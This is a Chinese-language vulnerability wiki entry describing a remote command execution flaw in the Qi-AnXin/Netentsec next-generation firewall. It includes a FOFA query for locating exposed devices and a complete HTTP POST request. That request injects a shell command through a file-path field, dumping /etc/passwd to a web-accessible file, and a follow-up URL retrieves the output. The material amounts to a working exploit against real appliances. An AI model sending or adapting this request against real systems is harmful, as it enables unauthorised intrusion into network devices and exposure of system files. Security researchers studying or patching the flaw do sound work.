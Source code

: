 # 网康下一代防火墙 RCE

## 漏洞描述

奇安信 网康下一代防火墙存在远程命令执行，通过漏洞攻击者可以获取服务器权限

## 漏洞影响

> [!NOTE]
>
> 奇安信 网康下一代防火墙

## FOFA

> [!NOTE]
>
> app="网康科技-下一代防火墙"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/qax-4.png)

发送如下请求包

```
POST /directdata/direct/router HTTP/1.1
Host: XXX.XXX.XXX.XXX
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_cmd.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}

```

再请求获取命令执行结果

```
http://xxx.xxx.xxx.xxxx/test_cmd.txt
```

![](http://wikioss.peiqi.tech/vuln/qax-3.png)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/qax-6.png)